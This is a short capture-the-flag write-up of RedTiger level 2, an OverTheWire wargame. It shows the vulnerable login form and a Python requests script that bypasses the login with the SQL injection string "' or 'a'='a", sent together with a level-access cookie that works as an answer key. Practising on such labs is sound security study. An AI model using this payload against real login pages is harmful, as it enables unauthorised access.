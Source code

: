 ================================================================================================================
[redtiger] level2
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="post_data: {username=' or 'a'='a&password=' or 'a'='a}",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source Analysis
================================================================================================================

- POST 로그인 페이지 취약점
- MySQL, Or String Injection

.. code-block:: html

    <form method="POST">
        Username: <input type="text" name="username"><br>
        Password: <input type="password" name="password"><br>
        <input type="submit" name="login" value="Login">
    </form>
    

|

or String injection
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level2.php"
    cookies = {
        "level2login":"easylevelsareeasy_%21"
    }

    payload = {
        "username": "' or 'a'='a",
        "password": "' or 'a'='a",
        "login": "Login"
    }

    r = requests.post(url, cookies=cookies, data=payload, verify=False)

    print r.content

